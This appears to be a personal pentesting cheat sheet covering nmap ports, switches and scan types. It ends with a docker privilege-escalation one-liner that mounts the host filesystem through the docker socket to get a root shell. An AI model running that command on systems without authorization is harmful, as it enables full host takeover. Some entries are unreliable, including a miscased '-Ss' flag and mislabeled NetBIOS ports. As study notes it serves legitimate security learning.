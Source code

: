 * nmap
: nmap is the industry standard port scanner/enumeration tool
: there are 65535 ports on a computer
: a (http) webservice can be found on port 80
: a (https) webservice can be found on port 443
#+begin_src bash
(port) (service)

1 	TCP Port Service Multiplexer (TCPMUX)
5 	Remote Job Entry (RJE)
7 	ECHO
18 	Message Send Protocol (MSP)
20 	FTP — Data
21 	FTP — Control
22 	SSH Remote Login Protocol
23 	Telnet
25 	Simple Mail Transfer Protocol (SMTP)
29 	MSG ICP
37 	Time
42 	Host Name Server (Nameserv)
43 	WhoIs
49 	Login Host Protocol (Login)
53 	Domain Name System (DNS)
69 	Trivial File Transfer Protocol (TFTP)
70 	Gopher Services
79 	Finger
80 	HTTP
103 	X.400 Standard
108 	SNA Gateway Access Server
109 	POP2
110 	POP3
115 	Simple File Transfer Protocol (SFTP)
118 	SQL Services
119 	Newsgroup (NNTP)
137 	NetBIOS Name Service
139 	NetBIOS Datagram Service
143 	Interim Mail Access Protocol (IMAP)
150 	NetBIOS Session Service
156 	SQL Server
161 	SNMP
179 	Border Gateway Protocol (BGP)
190 	Gateway Access Control Protocol (GACP)
194 	Internet Relay Chat (IRC)
197 	Directory Location Service (DLS)
389 	Lightweight Directory Access Protocol (LDAP)
396 	Novell Netware over IP
443 	HTTPS
444 	Simple Network Paging Protocol (SNPP)
445 	Microsoft-DS
458 	Apple QuickTime
546 	DHCP Client
547 	DHCP Server
563 	SNEWS
569 	MSN
1080 	Socks
#+end_src
** switches
-Ss
: syn scan
-sU
: udp scan
-O
: os detection
-sV
: service version detection
-v
: increase verbosity
-vv
: verbosity level 2
-oA
: output all formats (gnmap, xml, nmap)
-oN
: output normal format
-oG
: output in grepable format
-A
: shorthand switch that activates service detection, operating system detection, a traceroute and common script scanning
-T5
: set timing template level 5
-p
: set port
-p 1000-1500
: scan port 1000 to 1500
-p-
: scan all ports
--script
: activate a script
--script=vuln
: activate all scripts in the (vuln) category
** scan types
#+begin_src bash
When port scanning with Nmap, there are three basic scan types. These are:

    TCP Connect Scans (-sT)
    SYN "Half-open" Scans (-sS)
    UDP Scans (-sU)

Additionally there are several less common port scan types, some of which we will also cover (albeit in less detail). These are:

    TCP Null Scans (-sN)
    TCP FIN Scans (-sF)
    TCP Xmas Scans (-sX)

Most of these (with the exception of UDP scans) are used for very similar purposes, however, the way that they work differs between each scan. This means that, whilst one of the first three scans are likely to be your go-to in most situations, it's worth bearing in mind that other scan types exist.

In terms of network scanning, we will also look briefly at ICMP (or "ping") scanning.
#+end_src

* docker
- list docker images
  : docker images

- privesc
  : docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
